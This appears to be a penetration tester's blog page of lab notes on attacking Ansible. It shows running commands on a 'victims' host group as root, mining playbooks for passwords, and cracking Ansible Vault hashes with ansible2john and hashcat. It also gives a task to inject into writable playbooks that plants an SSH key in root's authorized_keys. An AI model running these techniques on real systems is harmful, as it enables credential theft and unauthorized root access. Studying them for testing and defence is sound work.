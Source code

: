 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# <span style="fint-size: 35px; color:red">Ansible</span>
                
                
<style media="screen">
  div.highlighter-rouge {
    position: relative;
    font-family: 'Source Code Pro', monospace;
    font-size: 14px;
  }

  div.highlighter-rouge button {
    display: inline-block;
    outline: 0;
    cursor: pointer;
    background-color: #252525;
    color: var(--text-color);
    border-radius: 8px;
    border-color: #252525;
    line-height: 1.5px;
    padding: 15px 10px;
    text-align:center;
    transition-duration: .10s;
    transition-property: all;
    position: absolute;
    top: 7px;;
    left: 940px;
  }
</style>

<!--     
font-weight: 300;
transition-timing-function: cubic-bezier(.4,0,.2,1);
color: #fff;
background: #000;
-->


<script type="text/javascript">
  function InitCopyPaste(){
    const codeBlocks = document.querySelectorAll("div.highlighter-rouge");

    codeBlocks.forEach((codeblock, index) => {
      const code = codeBlocks[index].innerText;
      const copyCodeButton = document.createElement("button");
      copyCodeButton.innerHTML = "Copy";
      //copyCodeButton.classList = "btn btn-sm btn-outline-primary";
      
      
      //mouseover
      copyCodeButton.addEventListener('mouseover', () => {
      copyCodeButton.style.borderColor = 'white';
      copyCodeButton.style.fontColor = 'white';
      });

      //mouseout
      copyCodeButton.addEventListener('mouseout', () => {
      copyCodeButton.style.borderColor = '#252525';
      copyCodeButton.style.fontColor = '#DBDBDB';
      });
      
      //onclick
      copyCodeButton.onclick = function () {
        window.navigator.clipboard.writeText(code);
        copyCodeButton.innerHTML = "Copy";
        copyCodeButton.style.borderColor = 'red';
        copyCodeButton.style.fontColor = 'red';
        //copyCodeButton.classList.add("btn-success");
        //copyCodeButton.classList.remove("btn-outline-primary");

        setTimeout(() => {
          copyCodeButton.innerHTML = "Copy";
          copyCodeButton.classList.remove("btn-success");
          copyCodeButton.style.backgroundColor = '#252525';
          copyCodeButton.classList.add("btn-outline-primary");
        }, 500);
      };
      // make the button
      codeblock.appendChild(copyCodeButton);
    });
  }

  document.addEventListener("DOMContentLoaded", InitCopyPaste);
</script>

#### Commands

```shell
this is a code block in shell
```

Ansible is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in <span style="color:red">/etc/ansible/hosts</span>.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run _whoami_ on all members of the Ansible group. To run it as root <span style="color:red">ansible victims -a "whoami" --become</span> or specify the user <span style="color:red">ansible victims -a "whoami" --become user2</span>.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in <span style="color:red">/opt/playbooks</span> to see if there's any info leakage.
I.E.
```yaml
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```
Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```
Copy the hash starting with "$ANSIBLE_VAULT......." and use <span style="color:red">ansible2john</span> to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```
to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```
Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```
Also, some modules from Ansible might leak data in <span style="color:red">/var/log/syslog</span> (I.E. shell module)

